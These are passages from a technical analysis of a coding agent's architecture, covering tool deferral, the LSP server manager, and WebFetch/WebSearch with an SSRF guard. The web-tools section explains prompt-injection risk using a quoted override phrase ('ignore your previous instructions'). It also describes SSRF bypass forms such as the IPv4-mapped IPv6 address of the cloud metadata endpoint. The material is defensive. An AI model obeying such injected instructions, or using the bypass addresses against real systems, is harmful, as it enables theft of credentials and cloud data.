1. **No tool-eviction mechanism.** The published pattern implies that tools can be deactivated when no longer needed. cc does not implement tool eviction -- once a tool is loaded via `ToolSearchTool`, it remains in the active set for the rest of the session. For long-running sessions with many tool activations, this gradually increases prompt size and degrades selection accuracy, the very problem that progressive expansion was designed to solve. A reference-counting scheme that deactivates tools after N turns of disuse would address this.

2. **Description fetching is lazy and expensive.** When `ToolSearchTool` performs keyword search, it fetches each deferred tool's description via `tool.prompt()`. This is an async operation that generates the full prompt text, which can be expensive for tools with dynamic prompts. The memoization cache mitigates this, but the first search for a large deferred set can be slow. A pre-computed index of tool descriptions would eliminate this latency at the cost of freshness.

3. **Search is keyword-based, not semantic.** The published pattern does not specify the search algorithm. cc uses a simple keyword-matching approach with weighted scoring. This works well for known tool names and common terms but can miss tools when the model uses unexpected vocabulary (e.g., searching for "database" might not find a tool described as "query engine"). An embedding-based semantic search would improve recall but add complexity and latency.

HER failure mode 6.8 (Tool Explosion) warns that too many tools degrade selection accuracy. cc addresses this through deferral, but the lack of eviction means that the active tool set grows monotonically. In a session that activates many deferred tools, the selection accuracy degradation that progressive expansion was designed to prevent can re-emerge. The `ToolSearchTool` itself is a partial mitigation: even when the active set is large, the model can use `select:ToolName` to directly specify the tool it wants, bypassing the selection problem entirely.

## Developer takeaways for building a long-running agent

1. **Defer tools aggressively.** Including every tool in the initial prompt wastes tokens and confuses the model. The `shouldDefer` flag combined with `ToolSearchTool` provides a clean mechanism for lazy loading. The initial tool set should be the smallest possible set that covers common operations. Any tool that is used in fewer than 10% of sessions is a candidate for deferral.

2. **Implement tool eviction.** For agents that run for many hours, the lack of tool eviction is a real problem. Consider implementing a reference-counting scheme: when a tool has not been used for N turns, remove it from the active set and return it to the deferred pool. This keeps the prompt lean without losing access to rarely-used capabilities.

3. **Provide search hints.** The `searchHint` field on tool definitions provides a curated, high-signal capability phrase that scores higher than the full description in keyword matching. This is a small investment (one line per tool) that significantly improves search accuracy. Without search hints, tools with generic descriptions are hard to find via keyword search.

4. **Handle MCP server latency gracefully.** When MCP servers are still connecting, `ToolSearchTool` includes pending server names in the output. This is a better user experience than returning "no matches found" when tools are not yet available. For any progressive tool expansion system, you must account for asynchronous tool discovery.

5. **Sort search results by recency.** The `GrepTool`'s `files_with_matches` mode sorts results by file modification time (most recent first). This is a practical heuristic: the files the developer has been editing recently are more likely to be relevant than files that have not been touched in months. The same principle applies to any search tool in a codebase context.

6. **Use ripgrep rather than building a search engine.** cc's `GrepTool` is a thin wrapper around ripgrep. Building a custom search engine would be a maintenance burden with no advantage over the purpose-built tool that ripgrep provides. The same principle applies to other infrastructure-quality services (LSP for code analysis, tree-sitter for parsing).

7. **Provide explicit truncation signals in paginated results.** The `[Showing results with pagination = limit: N]` suffix tells the model that there are more results available. Without this signal, the model cannot distinguish between "these are all the results" and "these are the first N results." The `appliedLimit` field in the output schema is the programmatic equivalent of this signal.

8. **Invalidate description caches when the tool set changes.** The `maybeInvalidateCache` function detects stale caches by comparing cache keys. For any system where tools can be added or removed at runtime (MCP servers connecting and disconnecting), the description cache must be invalidated when the tool set changes. A stale cache would return descriptions for tools that no longer exist or miss descriptions for newly added tools.

### Deep dive: the GrepTool output modes

The `GrepTool` supports three output modes, each with different token-cost profiles and use cases:

**`files_with_matches` mode.** This is the default and lowest-cost mode. It returns only file paths, sorted by modification time. This mode is ideal for initial exploration: the model can identify which files contain a pattern and then use the `Read` tool to examine specific matches. The token cost is proportional to the number of matching files, not the number of matches.

**`content` mode.** This mode returns matched lines with line numbers and optional context lines (`-A`, `-B`, `-C`). It is the highest-cost mode because it includes the actual content of each match. The `--max-columns 500` limit prevents individual lines from consuming excessive tokens, and the default `head_limit` of 250 caps the total number of returned lines.

**`count` mode.** This mode returns the number of matches per file, useful for assessing the prevalence of a pattern across the codebase. It has a moderate token cost because it includes file paths and counts but not content.

The mode selection is left to the model, which must balance between comprehensiveness and token cost. The `files_with_matches` mode is the safest default because it provides the most information per token. The model can then use `content` mode with targeted paths to examine specific matches.

### Deep dive: the LSPTool server lifecycle

The `LSPTool` depends on the LSP server manager, which maintains running language server instances. The server lifecycle has three phases:

1. **Startup.** When the agent session begins, the LSP server manager starts language servers for the detected project type (TypeScript, Python, etc.). The startup phase can take several seconds for large projects because the server must index the workspace.

2. **Initialization.** After startup, the server enters an initialization phase where it builds its internal index of symbols, types, and references. The `waitForInitialization` function blocks until the server is ready, with a timeout to prevent indefinite waiting.

3. **Steady state.** Once initialized, the server responds to LSP requests in milliseconds. The `didChange` and `didSave` notifications from the `Edit` and `Write` tools keep the server's index up to date as the model modifies files.

The `LSPTool` checks `getInitializationStatus` before dispatching operations. If the server is still initializing, the tool waits (up to a timeout) rather than failing immediately. This prevents errors during the early phase of a session when the language server is still indexing the workspace. The timeout behavior is important: waiting too long would stall the agent loop, while failing too early would cause unnecessary retry churn.

The 10 MB file-size cap prevents the `LSPTool` from sending excessively large documents to the language server, which could cause memory issues or timeouts. Files above this cap should be analyzed using the `Grep` or `Read` tools instead.

### LSP server manager architecture

The LSP server infrastructure is organized in three layers, each implemented as a factory function with closures for private state:

The **global singleton** (`src/services/lsp/manager.ts`) manages initialization lifecycle with four states: `not-started`, `pending`, `success`, and `failed`. The `initializeLspServerManager()` function creates the manager instance synchronously and starts async initialization without blocking the startup process. A generation counter prevents stale initialization promises from updating state -- when `reinitializeLspServerManager()` is called (e.g., after a plugin refresh), the counter increments and any in-flight promise from a previous generation is silently discarded. The singleton also gates initialization on `isBareMode()`, since headless `-p` script invocations have no use for LSP features.

The **server manager** (`src/services/lsp/LSPServerManager.ts`) routes requests to the correct language server instance based on file extension. It builds an `extensionMap` from each server's `extensionToLanguage` config during initialization, mapping file extensions (`.ts`, `.py`) to server names. The `sendRequest` method automatically calls `ensureServerStarted`, which starts a stopped server on demand -- servers are lazily started, not eagerly at session launch. The manager also tracks which files have been opened via `didOpen` notifications (using a `Map<URI, serverName>`), so `changeFile` can skip redundant `didOpen` calls and fall back to opening the file if it has not been previously synced.

The **server instance** (`src/services/lsp/LSPServerInstance.ts`) wraps an individual language server process with a five-state machine: `stopped`, `starting`, `running`, `stopping`, and `error`. The `LSPServerInstance` delegates to `LSPClient` for stdio-based JSON-RPC communication. It implements crash recovery with a configurable `maxRestarts` cap (default 3) to prevent a persistently crashing server from spawning unbounded child processes. Transient "content modified" errors (LSP error code -32801, commonly seen when rust-analyzer is still indexing) are automatically retried with exponential backoff (500ms, 1000ms, 2000ms) up to three times before failing.

```mermaid
classDiagram
    class LSPManagerSingleton {
        +getLspServerManager() LSPServerManager
        +getInitializationStatus() InitializationState
        +waitForInitialization() Promise
        +initializeLspServerManager() void
        +reinitializeLspServerManager() void
        +shutdownLspServerManager() Promise
        +isLspConnected() boolean
    }

    class LSPServerManager {
        +initialize() Promise
        +shutdown() Promise
        +getServerForFile(filePath) LSPServerInstance
        +ensureServerStarted(filePath) Promise
        +sendRequest(filePath, method, params) Promise
        +openFile(filePath, content) Promise
        +changeFile(filePath, content) Promise
        +saveFile(filePath) Promise
        +closeFile(filePath) Promise
        +isFileOpen(filePath) boolean
    }

    class LSPServerInstance {
        +name: string
        +config: ScopedLspServerConfig
        +state: LspServerState
        +startTime: Date
        +lastError: Error
        +restartCount: number
        +start() Promise
        +stop() Promise
        +restart() Promise
        +isHealthy() boolean
        +sendRequest(method, params) Promise
        +sendNotification(method, params) Promise
        +onNotification(method, handler) void
        +onRequest(method, handler) void
    }

    class LSPClient {
        +capabilities: ServerCapabilities
        +isInitialized: boolean
        +start(command, args) Promise
        +initialize(params) Promise
        +sendRequest(method, params) Promise
        +sendNotification(method, params) Promise
        +onNotification(method, handler) void
        +onRequest(method, handler) void
        +stop() Promise
    }

    LSPManagerSingleton --> LSPServerManager : creates and owns
    LSPServerManager --> LSPServerInstance : manages multiple
    LSPServerInstance --> LSPClient : delegates to
    LSPServerInstance : state machine stopped/starting/running/stopping/error
```

Server configurations are loaded exclusively from plugins via `src/services/lsp/config.ts`. The `getAllLspServers()` function loads all enabled plugins in parallel, calls `getPluginLspServers` on each, and merges the results. This design means that user-level or project-level LSP server configuration is not supported -- LSP servers are only available through the plugin system. The `reinitializeLspServerManager()` function exists precisely because of this architecture: `loadAllPlugins()` is memoized and can be called very early in startup before marketplaces are reconciled, caching an empty plugin list. Re-initialization forces a fresh config load after plugins are updated.

### LSP diagnostic registry and passive feedback

The LSP infrastructure includes a passive feedback channel that surfaces type errors, warnings, and other diagnostics from language servers directly into the model's context without the model having to explicitly request them. This is implemented in two parts:

The **diagnostic registry** (`src/services/lsp/LSPDiagnosticRegistry.ts`) stores LSP diagnostics received asynchronously via `textDocument/publishDiagnostics` notifications. It follows a five-step pattern: (1) the LSP server sends a `publishDiagnostics` notification; (2) `registerPendingLSPDiagnostic` stores it with a UUID key; (3) `checkForLSPDiagnostics` retrieves pending diagnostics; (4) `getLSPDiagnosticAttachments` converts them to attachments; (5) `getAttachments` delivers them to the conversation automatically. The registry applies volume limiting (10 diagnostics per file, 30 total) and cross-turn deduplication using an LRU cache of delivered diagnostic keys (capped at 500 files). Diagnostics are sorted by severity (Error before Warning before Info before Hint) before truncation, ensuring the most critical issues survive the limit. When a file is edited, `clearDeliveredDiagnosticsForFile` resets the deduplication state for that file so that updated diagnostics are not suppressed.

The **passive feedback handler** (`src/services/lsp/passiveFeedback.ts`) registers `textDocument/publishDiagnostics` handlers on all configured LSP servers via the server manager's `getAllServers()` API. It converts raw LSP diagnostic parameters into Claude's internal `DiagnosticFile` format using `formatDiagnosticsForAttachment`, which maps LSP severity numbers to string labels and normalizes file URIs. The handler is error-isolated: if one server's handler fails, it does not break other servers. Consecutive failures are tracked per server, with a warning logged after three or more consecutive failures -- a signal that the LSP server itself may be malfunctioning.

The passive feedback channel is registered automatically during initialization: after `initializeLspServerManager()` successfully initializes the manager, it calls `registerLSPNotificationHandlers(lspManagerInstance)` to wire up the diagnostic handlers. This means the model receives type errors and warnings from the language server as background context, even though it never explicitly requested them. This is a form of ambient observability that improves the model's ability to detect and fix issues in the code it writes.
# Web Tools: `WebFetch`, `WebSearch`, and SSRF Defense

## Overview

The web tools extend cc's reach beyond the local filesystem to the internet. `WebFetchTool` retrieves content from a URL and processes it with a model-based prompt, `WebSearchTool` performs web searches using Anthropic's server-side search infrastructure, and the SSRF guard in `src/utils/hooks/ssrfGuard.ts` blocks HTTP hooks from reaching private and link-local addresses. Together, these tools enable the agent to access documentation, look up error messages, and research solutions -- but they also open attack surfaces for prompt injection and data exfiltration. This chapter covers the architecture of each tool, the SSRF defense mechanism, and the connection to HER failure modes 6.13 (Prompt Injection) and 6.12 (Hallucinated Tool Calls).

## Data structures and contracts

### WebFetchTool schema

The `WebFetchTool` takes a URL and a processing prompt:

```typescript
// src/tools/WebFetchTool/WebFetchTool.ts:L24-L29
const inputSchema = lazySchema(() =>
  z.strictObject({
    url: z.string().url().describe('The URL to fetch content from'),
    prompt: z.string().describe('The prompt to run on the fetched content'),
  }),
)
```

The URL is validated as a proper URL by Zod's `.url()` constraint, which ensures that the scheme is present (http or https) and the hostname is well-formed. The prompt field is the processing instruction that the tool applies to the fetched content using a small, fast model.

The output schema captures the fetch metadata and processed result:

```typescript
// src/tools/WebFetchTool/WebFetchTool.ts:L32-L46
const outputSchema = lazySchema(() =>
  z.object({
    bytes: z.number().describe('Size of the fetched content in bytes'),
    code: z.number().describe('HTTP response code'),
    codeText: z.string().describe('HTTP response code text'),
    result: z.string().describe('Processed result from applying the prompt to the content'),
    durationMs: z.number().describe('Time taken to fetch and process the content'),
    url: z.string().describe('The URL that was fetched'),
  }),
)
```

The output includes both the raw fetch metadata (bytes, HTTP code, duration) and the processed result. The metadata enables the model to make informed decisions about whether the fetch was successful and whether the content is likely to be complete.

The tool also implements permission matching at the domain level. When checking permissions, it converts the URL hostname to a `domain:hostname` pattern and matches against the user's allow/deny rules. This enables fine-grained access control without requiring the user to specify full URLs.

The prompt template in `src/tools/WebFetchTool/prompt.ts` defines the secondary model prompt that processes fetched content. The `makeSecondaryModelPrompt` function constructs the prompt with the fetched markdown content and the user's processing instruction, optionally prepending context for preapproved domains. The UI components in `src/tools/WebFetchTool/UI.tsx` render the fetch status, including a spinner during the fetch-and-process pipeline and a summary of the result (bytes fetched, processing time, truncated content indicator).

```mermaid
sequenceDiagram
    participant Model as Agent Model
    participant Tool as WebFetchTool
    participant Preflight as Domain Blocklist
    participant Server as Target URL
    participant Turndown as HTML-to-Markdown
    participant Haiku as Secondary Model

    Model->>Tool: WebFetch(url, prompt)
    Tool->>Preflight: checkDomainBlocklist(hostname)
    Preflight-->>Tool: allowed
    Tool->>Server: HTTP GET (maxRedirects=0)
    Server-->>Tool: 200 OK + HTML
    Tool->>Turndown: turndown(htmlContent)
    Turndown-->>Tool: markdownContent
    Tool->>Haiku: applyPromptToMarkdown(prompt, markdown)
    Haiku-->>Tool: processed result
    Tool-->>Model: result + metadata (bytes, code, duration)
```

This sequence diagram shows the full sanitization pipeline: HTML is stripped of active content by Turndown before being passed to the secondary model. The domain blocklist preflight check and the HTML-to-markdown conversion form two distinct sanitization barriers, but neither removes instruction-like text that could influence the processing model.

```typescript
// src/tools/WebFetchTool/WebFetchTool.ts:L50-L64
function webFetchToolInputToPermissionRuleContent(input: {
  [k: string]: unknown
}): string {
  try {
    const parsedInput = WebFetchTool.inputSchema.safeParse(input)
    if (!parsedInput.success) {
      return `input:${input.toString()}`
    }
    const { url } = parsedInput.data
    const hostname = new URL(url).hostname
    return `domain:${hostname}`
  } catch {
    return `input:${input.toString()}`
  }
}
```

This `domain:hostname` pattern enables fine-grained access control: a user can allow `domain:docs.python.org` while denying `domain:evil.com`. The hostname extraction is safe because `new URL()` throws on malformed URLs, and the fallback path uses the raw input string.

### WebSearchTool schema

The `WebSearchTool` takes a query with optional domain filtering:

```typescript
// src/tools/WebSearchTool/WebSearchTool.ts:L25-L37
const inputSchema = lazySchema(() =>
  z.strictObject({
    query: z.string().min(2).describe('The search query to use'),
    allowed_domains: z
      .array(z.string())
      .optional()
      .describe('Only include search results from these domains'),
    blocked_domains: z
      .array(z.string())
      .optional()
      .describe('Never include search results from these domains'),
  }),
)
```

The `min(2)` constraint on the query prevents single-character searches that would return irrelevant results. The domain filtering parameters are passed to Anthropic's server-side search infrastructure; cc does not validate or enforce them client-side. The search is executed server-side via Anthropic's `web_search_20250305` tool type, with a hardcoded maximum of 8 searches per invocation.

### SSRF guard

The SSRF guard's core function classifies IP addresses as blocked or allowed:

```typescript
// src/utils/hooks/ssrfGuard.ts:L42-L53
export function isBlockedAddress(address: string): boolean {
  const v = isIP(address)
  if (v === 4) {
    return isBlockedV4(address)
  }
  if (v === 6) {
    return isBlockedV6(address)
  }
  return false
}
```

The function returns `false` for non-IP addresses (where `isIP` returns 0) because hostname-based blocking is handled by a different layer. The blocked ranges include private IPv4 (10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16), link-local (169.254.0.0/16 for cloud metadata), shared address space (100.64.0.0/10 for CGNAT), and IPv6 equivalents. Loopback (127.0.0.0/8, ::1) is explicitly allowed because local dev policy servers are a primary HTTP hook use case.

## Control flow

### WebFetchTool: fetch-and-process pipeline

The `WebFetchTool` follows a three-stage pipeline:

1. **Fetch**: Retrieve the URL content, converting HTML to markdown.
2. **Process**: Apply the user-supplied prompt to the fetched content using a small, fast model.
3. **Return**: Package the processed result with metadata (bytes, HTTP code, duration).

The tool is marked `shouldDefer: true`, meaning it is not included in the initial prompt and must be discovered via `ToolSearchTool`. This reduces the initial tool count and prevents the model from defaulting to web searches when local file inspection would suffice.

```mermaid
flowchart TD
    A[Model requests WebFetch] --> B{Permission check}
    B -->|denied| C[Return permission error]
    B -->|allowed| D{isPreapprovedUrl}
    D -->|yes| E[Fetch without prompt]
    D -->|no| F[Fetch with prompt]
    E --> G[Convert to markdown]
    F --> G
    G --> H[Apply prompt to content]
    H --> I[Return result + metadata]
```

The `isPreapprovedUrl` check skips some permission checks for known-safe domains. This is a convenience feature that allows the tool to fetch from trusted sources (e.g., documentation sites) without requiring explicit user approval for each request. The permission system is the actual security boundary; the preapproved list is an optimization, not a security control.

The preapproved host list in `src/tools/WebFetchTool/preapproved.ts` contains approximately 70 domains organized by category: Anthropic's own properties, top programming language documentation sites, web and JavaScript frameworks, Python frameworks, cloud and DevOps platforms, databases, and game development tools. The list is split at module load into a `HOSTNAME_ONLY` set for O(1) lookups and a `PATH_PREFIXES` map for path-scoped entries like `github.com/anthropics`. Path-scoped entries enforce segment boundaries: `/anthropics` matches `/anthropics` and `/anthropics/repo` but not `/anthropics-evil/malware`. A critical security property is that the sandbox system deliberately does not inherit this list for network restrictions, because arbitrary network access (POST, uploads) to domains like `huggingface.co` or `nuget.org` could enable data exfiltration.

### WebSearchTool: server-side search

The `WebSearchTool` delegates search execution to Anthropic's API. It constructs a `BetaWebSearchTool20250305` tool specification and includes it in a model request:

```typescript
// src/tools/WebSearchTool/WebSearchTool.ts:L76-L84
function makeToolSchema(input: Input): BetaWebSearchTool20250305 {
  return {
    type: 'web_search_20250305',
    name: 'web_search',
    allowed_domains: input.allowed_domains,
    blocked_domains: input.blocked_domains,
    max_uses: 8,
  }
}
```

The search results are parsed from the API response, which contains a sequence of `server_tool_use`, `web_search_tool_result`, text, and citation blocks. The tool extracts search hits (title + URL) and text commentary, packaging them into a structured output. The `max_uses: 8` constraint limits the number of searches per invocation, preventing the model from burning API quota on excessive searches.

The search prompt in `src/tools/WebSearchTool/prompt.ts` instructs the model on when and how to use web search, including guidance on constructing effective queries and interpreting results. The UI components in `src/tools/WebSearchTool/UI.tsx` render search progress and results in the terminal, displaying each search hit as a hyperlink and providing a summary of the search operation (e.g., "Did 3 searches in 2.1s").

The key architectural difference from `WebFetchTool` is that `WebSearchTool` does not perform the search client-side. It constructs the tool specification and sends it to the API, which executes the search and returns the results. This means cc has no control over the search infrastructure and cannot apply its own SSRF guard or content sanitization to the search results. The tradeoff is that server-side search is more reliable and does not require the client to handle the complexity of web search ranking.

### Domain blocklist preflight check

Before `WebFetchTool` fetches any URL, it performs a server-side domain safety check via `checkDomainBlocklist` in `src/tools/WebFetchTool/utils.ts`. The function queries `https://api.anthropic.com/api/web_fetch/domain_info?domain=<hostname>` with a 10-second timeout. If the server responds with `can_fetch: true`, the domain is cached for 5 minutes in a separate `DOMAIN_CHECK_CACHE` (hostname-keyed, max 128 entries). Only "allowed" results are cached; blocked or failed checks re-query on the next attempt. This two-tier caching design avoids redundant preflight HTTP round-trips when the user fetches multiple paths on the same domain within the same session. Enterprise customers with restrictive security policies that block outbound connections to `claude.ai` can opt out of this check by setting `skipWebFetchPreflight` in their settings.

When the blocklist check returns `blocked`, the tool throws a `DomainBlockedError` with the message "Claude Code is unable to fetch from <domain>". When the check fails due to network errors, a `DomainCheckFailedError` is thrown instead, informing the user that the domain could not be verified as safe.

### Redirect safety handling

The `WebFetchTool` does not automatically follow HTTP redirects. The `isPermittedRedirect` function in `src/tools/WebFetchTool/utils.ts` implements a restrictive redirect policy: a redirect is allowed only if the target URL has the same protocol, port, and base hostname (with or without a `www.` prefix). This prevents open-redirect attacks where a trusted domain redirects to a malicious server. For example, `docs.python.org/page` can redirect to `www.docs.python.org/other-page`, but not to `docs.python.org.evil.com`.

The `getWithPermittedRedirects` function recursively follows permitted redirects up to a maximum of `MAX_REDIRECTS` (10) hops. Each redirect increments a depth counter, and exceeding the limit throws an error. Without this cap, a malicious server could return a redirect loop (`/a` to `/b` to `/a`) where each hop resets the `FETCH_TIMEOUT_MS` timer, hanging the tool until the user manually interrupts. The function also detects egress proxy blocks: if the proxy returns a 403 with `X-Proxy-Error: blocked-by-allowlist`, the tool throws an `EgressBlockedError` instead of retrying.

### Resource consumption controls

`src/tools/WebFetchTool/utils.ts` defines several resource consumption constants that bound the tool's impact on the system. `MAX_URL_LENGTH` (2000) caps URL length to prevent data exfiltration through excessively long URLs; the original limit of 250 was too restrictive for JWT-signed cloud service URLs. `MAX_HTTP_CONTENT_LENGTH` (10 MB) limits the response body size. `FETCH_TIMEOUT_MS` (60 seconds) prevents hanging on slow or unresponsive servers. `MAX_REDIRECTS` (10) caps redirect hops. These constants implement the PSR recommendation to "set limits on CPU, memory, and network usage for the Web Fetch tool to prevent a single request or user from overwhelming the system."

The `MAX_MARKDOWN_LENGTH` constant (100,000 characters) truncates the markdown output before passing it to the secondary model for prompt processing. This prevents "Prompt is too long" errors from the Haiku model when the fetched page is very large. Truncated content receives an appended `[Content truncated due to length...]` marker.

### Caching architecture

`WebFetchTool` uses a two-layer caching architecture implemented with `lru-cache`. The `URL_CACHE` stores fetched content keyed by URL, with a 15-minute TTL and a 50 MB size limit. Cache entries include the bytes, HTTP status code, status text, markdown content, content type, and any persisted binary file path. The cache uses content byte length for eviction accounting, ensuring that large responses are evicted proportionally.

The `DOMAIN_CHECK_CACHE` is a separate, hostname-keyed cache with a 5-minute TTL and a maximum of 128 entries. It exists because the `URL_CACHE` is URL-keyed, meaning fetching two paths on the same domain (e.g., `docs.python.org/3/library/os.html` and `docs.python.org/3/library/sys.html`) would trigger two identical preflight HTTP round-trips to `api.anthropic.com`. By caching at the hostname level, the tool avoids these redundant checks. Only "allowed" results are cached; blocked or failed checks always re-query, ensuring that a previously blocked domain can be re-checked if the server-side blocklist is updated.

### SSRF guard: DNS-level protection

The SSRF guard implements a `dns.lookup`-compatible function that validates resolved IP addresses before the connection is made:

```typescript
// src/utils/hooks/ssrfGuard.ts:L216-L283
export function ssrfGuardedLookup(
  hostname: string,
  options: object,
  callback: (
    err: Error | null,
    address: AxiosLookupAddress | AxiosLookupAddress[],
    family?: AddressFamily,
  ) => void,
): void {
  // If hostname is already an IP literal, validate it directly
  const ipVersion = isIP(hostname)
  if (ipVersion !== 0) {
    if (isBlockedAddress(hostname)) {
      callback(ssrfError(hostname, hostname), '')
      return
    }
    // ... return valid IP literal
  }

  dnsLookup(hostname, { all: true }, (err, addresses) => {
    if (err) { callback(err, ''); return }
    for (const { address } of addresses) {
      if (isBlockedAddress(address)) {
        callback(ssrfError(hostname, address), '')
        return
      }
    }
    // ... return first valid address
  })
}
```

This function is passed as the `lookup` option in axios request configuration, ensuring that the validated IP is the one the socket connects to. This closes the DNS-rebinding window between validation and connection: without a custom `lookup` function, the hostname would be resolved twice (once for validation, once for the actual TCP connection), and an attacker could serve different IPs on each resolution.

The `{ all: true }` option in `dnsLookup` retrieves all resolved addresses for a hostname. The guard checks every address, not only the first one. This is important because some DNS configurations return multiple A records, and an attacker could mix public and private addresses. If any resolved address is blocked, the entire connection is rejected.

```mermaid
sequenceDiagram
    participant Hook as HTTP Hook
    participant SSRF as ssrfGuardedLookup
    participant DNS as dns.lookup
    participant Socket as TCP Socket

    Hook->>SSRF: lookup("169.254.169.254", ...)
    SSRF->>SSRF: isIP("169.254.169.254") = 4
    SSRF->>SSRF: isBlockedV4 -> true (link-local)
    SSRF-->>Hook: ERR_HTTP_HOOK_BLOCKED_ADDRESS

    Hook->>SSRF: lookup("docs.python.org", ...)
    SSRF->>DNS: dnsLookup("docs.python.org", {all: true})
    DNS-->>SSRF: [{address: "151.101.1.69", family: 4}]
    SSRF->>SSRF: isBlockedV4("151.101.1.69") -> false
    SSRF->>Socket: connect to 151.101.1.69
```

### IPv4-mapped IPv6 address extraction

The IPv6 guard includes a sophisticated extraction function for IPv4-mapped IPv6 addresses:

```typescript
// src/utils/hooks/ssrfGuard.ts:L187-L204
function extractMappedIPv4(addr: string): string | null {
  const g = expandIPv6Groups(addr)
  if (!g) return null
  if (
    g[0] === 0 && g[1] === 0 && g[2] === 0 &&
    g[3] === 0 && g[4] === 0 && g[5] === 0xffff
  ) {
    const hi = g[6]!
    const lo = g[7]!
    return `${hi >> 8}.${hi & 0xff}.${lo >> 8}.${lo & 0xff}`
  }
  return null
}
```

Without this, hex-form mapped addresses like `::ffff:a9fe:a9fe` (which maps to `169.254.169.254`, the AWS metadata endpoint) would bypass the IPv4 check. The function expands IPv6 groups from their compressed form, checks whether the first 80 bits are zero and the next 16 bits are `0xffff` (the standard IPv4-mapped prefix), and then extracts the embedded IPv4 address from the last 32 bits.

The `expandIPv6Groups` function handles the full range of IPv6 compression formats, including `::` shorthand and leading-zero omission. This is necessary because attackers can use various compressed forms of the same address to evade simpler pattern matching.

## Edge cases and failure modes

**IPv4-mapped IPv6 bypass.** An attacker could register a domain that resolves to `::ffff:a9fe:a9fe` (IPv6 representation of `169.254.169.254`). The `extractMappedIPv4` function catches this by expanding IPv6 groups and checking whether the first 80 bits are zero and the next 16 bits are `0xffff`, then delegating the embedded IPv4 address to `isBlockedV4`. Without this check, the SSRF guard would classify the address as a valid IPv6 address and allow the connection.

**CGNAT range.** The 100.64.0.0/10 range (RFC 6598) is blocked because some cloud providers use it for metadata endpoints (e.g., Alibaba Cloud at `100.100.100.200`). This range is not covered by the standard private-address checks (10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16), so it must be explicitly included in the blocked ranges.

**Proxy bypass.** When a global proxy or sandbox network proxy is in use, the SSRF guard is effectively bypassed for the target host because the proxy performs DNS resolution. The sandbox proxy enforces its own domain allowlist, so this is not a security gap in the sandboxed path -- but it means the SSRF guard only provides full protection when no proxy is in use.

**WebSearch domain filtering.** The `allowed_domains` and `blocked_domains` parameters are passed to Anthropic's server-side search infrastructure. cc does not validate or enforce these client-side; the filtering is entirely server-side. If the server-side implementation changes, the filtering behavior may change without cc's knowledge. This is an inherent limitation of delegating search to a third-party service.

**Preapproved URLs.** The `WebFetchTool` has a preapproved URL list (`isPreapprovedUrl`) that skips some permission checks for known-safe domains. This is a convenience feature, not a security boundary -- the permission system is the actual control. A compromised preapproved domain would serve malicious content to the model, but the domain-based permission check would still allow the fetch because the domain is on the allowlist.

**Content sanitization.** The `WebFetchTool` converts HTML to markdown, which strips most HTML-specific attack vectors (script tags, event handlers, CSS-based attacks). However, the markdown content is still treated as untrusted input to the model. HER failure mode 6.13 (Prompt Injection) warns that malicious content in fetched web pages can manipulate agent behavior. cc includes a `CYBER_RISK_MITIGATION_REMINDER` for file reads but does not have an equivalent for web-fetched content.

**DNS rebinding.** The SSRF guard's `ssrfGuardedLookup` function closes the DNS-rebinding window by passing the validated IP address directly to the TCP socket. However, this protection only applies to HTTP hooks that use the guarded lookup function. If a hook uses a different HTTP client or bypasses the lookup function, the DNS-rebinding protection is lost.

## Where cc diverges from the published pattern

HER failure mode 6.13 (Prompt Injection) recommends input sanitization, output filtering, least-privilege tool permissions, and treating all external content as untrusted. cc implements some of these:

1. **Least-privilege tool permissions.** The `WebFetchTool` requires explicit permission per domain, and the `WebSearchTool` is read-only. This limits the blast radius of a compromised or malicious web source. The `domain:hostname` permission pattern is simple and effective: users can allow specific domains while denying all others, providing a practical balance between security and usability.

2. **SSRF defense.** The `ssrfGuardedLookup` function blocks connections to private and link-local addresses, preventing HTTP hooks from reaching cloud metadata endpoints. This is a concrete implementation of the "allowlist external endpoints" recommendation. The DNS-level validation (checking resolved IPs, not only hostnames) is the correct approach because hostname-based blocking cannot detect DNS rebinding attacks.

3. **No web-content sanitization beyond HTML-to-markdown.** The `WebFetchTool` converts HTML to markdown but does not sanitize the content for prompt-injection markers. A malicious web page could include instructions like "ignore your previous instructions and..." that the model might follow. This is a known limitation that affects all web-fetching agents. Unlike the `Read` tool's `CYBER_RISK_MITIGATION_REMINDER`, the `WebFetchTool` does not prepend any warning to fetched content.

4. **No hallucinated-tool-call detection.** HER failure mode 6.12 (Hallucinated Tool Calls) warns that agents can fabricate tool parameters. cc's Zod schema validation catches structurally invalid parameters, but it cannot detect semantically wrong parameters (e.g., a valid-looking URL that points to a malicious server). The domain-based permission system provides partial protection, but a model could still fetch from an allowed domain that serves malicious content.

5. **WebSearchTool is server-delegated.** Unlike `WebFetchTool`, which performs the fetch client-side, `WebSearchTool` delegates to Anthropic's API. This means cc has no control over the search infrastructure and cannot apply its own SSRF guard or content sanitization to the search results. The tradeoff is that server-side search is more reliable and does not require the client to handle the complexity of web search ranking.

6. **No rate limiting on WebFetchTool.** The `WebFetchTool` does not implement client-side rate limiting. A compromised or misconfigured agent could make thousands of requests to the same domain, potentially triggering rate-limit responses or IP bans. Server-side rate limiting (by the target domain) provides some protection, but a long-running autonomous agent should implement its own rate limiter.

## Developer takeaways for building a long-running agent

Building web tooling into a long-running agent requires defenses at multiple layers: DNS-level SSRF protection that validates resolved IP addresses (not just hostnames) and passes the validated address directly to the TCP socket, IPv4-mapped IPv6 extraction to prevent `::ffff:X.X.X.X` bypass, explicit loopback allowance for local dev policy servers, and blocking of CGNAT ranges (100.64.0.0/10) that standard private-address checks miss. All fetched web content must be treated as untrusted: HTML-to-markdown conversion strips active content but cannot remove instruction-like text that might manipulate the processing model. A long-running agent should add a content-safety preamble to fetched content, similar to cc's `CYBER_RISK_MITIGATION_REMINDER` for file reads. Domain-based permission rules (`domain:hostname`) provide a practical balance between security and usability, and server-side domain blocklist checks add a defense-in-depth layer beyond client-side validation. Search should be delegated to specialized infrastructure rather than implemented client-side. When a proxy is in use, ensure the proxy enforces its own domain allowlist since the SSRF guard's DNS-level validation is effectively bypassed in that path.
# TodoWrite, AskUserQuestion, Brief, Config, SendMessage

## Overview

The five "meta" tools in this chapter are not about transforming files or querying the world. They are about structuring the session itself: planning, asking, reporting, configuring, and communicating. Taken together, they form the agent's interface to human-in-the-loop (HITL) workflows and self-management. Each tool addresses a distinct surface of the harness-to-user contract:

- **TodoWrite** gives the agent a scratchpad for task decomposition and progress tracking, persisting state across compaction events.
- **AskUserQuestion** provides a structured, multiple-choice HITL gate that interrupts the query loop and enforces explicit user consent.
- **Brief** (SendUserMessage) is the agent's primary output channel to the user, replacing raw assistant text with a structured, attachable message system.
